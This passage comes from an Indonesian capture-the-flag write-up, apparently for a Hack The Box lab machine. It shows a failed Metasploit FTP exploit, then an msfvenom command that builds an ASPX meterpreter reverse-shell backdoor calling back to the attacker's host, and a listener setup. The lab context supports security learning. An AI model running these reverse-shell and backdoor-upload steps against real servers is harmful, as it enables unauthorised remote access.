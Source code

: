 ```bash
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2000 SP4 English/Italian (IIS 5.0)


msf6 exploit(windows/ftp/ms09_053_ftpd_nlst) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.129.136.185:21 - 257 "LSRSWHVOZI" directory created.
[*] 10.129.136.185:21 - 250 CWD command successful.
[*] 10.129.136.185:21 - Creating long directory...
[*] 10.129.136.185:21 - 451 No mapping for the Unicode character exists in the target multi-byte code page.
[*] 10.129.136.185:21 - 200 PORT command successful.
[*] 10.129.136.185:21 - Trying target Windows 2000 SP4 English/Italian (IIS 5.0)...
[*] 10.129.136.185:21 - 451 No mapping for the Unicode character exists in the target multi-byte code page.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/ftp/ms09_053_ftpd_nlst) > 
```

sayangnya disini saya tidak berhasil mendapatkan akses tersebut, akan tetapi jika diperhatikan pada gambar dibawah ini beberapa payload dari module tersebut berhasil terupload pada server tersebut, ini menunjukan bahwa directory tersebut writable. 

![](/home/punktester/.config/marktext/images/2022-10-14-07-03-58-image.png)

disini saya berfikir untuk mengupload aspx backdoor menggunakan ftp, langkah pertama saya membuat sebuah payload dengan **msfvenom**

```bash
┌──(punktester㉿kali)-[~/…/ctf/htb/easy/devel]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f aspx > halah.aspx 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2866 bytes
```

selanjutnya saya menjalankan module listener pada metasploit

```bash
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```